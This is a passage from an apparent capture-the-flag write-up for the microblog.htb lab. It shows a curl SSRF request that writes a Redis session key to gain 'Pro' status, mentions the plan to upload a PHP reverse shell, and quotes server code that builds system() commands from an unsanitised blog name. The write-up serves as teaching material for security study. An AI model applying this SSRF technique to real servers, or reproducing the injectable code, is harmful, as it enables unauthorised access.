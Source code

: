 After looking through all the code, the 'Pro' user method seems to be the correct way. The ProUser method would allow us to use `bulletproof.php` to upload files, of which we can probably upload some kind of PHP reverse shell and execute it. Now, we need to find out how to manipulate the Redis database to make ourselves Pro.

### Redis Manipulation --> RCE

While researching possible exploits, I found that it was possible to use SSRF to manipulate the Redis database.&#x20;

{% embed url="https://labs.detectify.com/2021/02/18/middleware-middleware-everywhere-and-lots-of-misconfigurations-to-fix/" %}

It is possible to set our session using SSRF using the HSET command on Redis. We can test this out by using this:

```bash
curl -X "HSET" http://microblog.htb/static/unix:%2fvar%2frun%2fredis%2fredis.sock:test123%20pro%20true%20a/b
```

Afterwards, if we create a website, we notice that we can upload Images:

<figure><img src="../../.gitbook/assets/image (2861).png" alt=""><figcaption></figcaption></figure>

Great! We are a Pro User and can upload files now. Since we are Pro, this chunk of code would be executed:

```php
function provisionProUser() {
    if(isPro() === "true") {
        $blogName = trim(urldecode(getBlogName()));
        system("chmod +w /var/www/microblog/" . $blogName);
        system("chmod +w /var/www/microblog/" . $blogName . "/edit");
        system("cp /var/www/pro-files/bulletproof.php /var/www/microblog/" . $blogName . "/edit/");
        system("mkdir /var/www/microblog/" . $blogName . "/uploads && chmod 700 /var/www/microblog/" . $blogName . "/uploads");
        system("chmod -w /var/www/microblog/" . $blogName . "/edit && chmod -w /var/www/microblog/" . $blogName);
    }
    return;
}
```
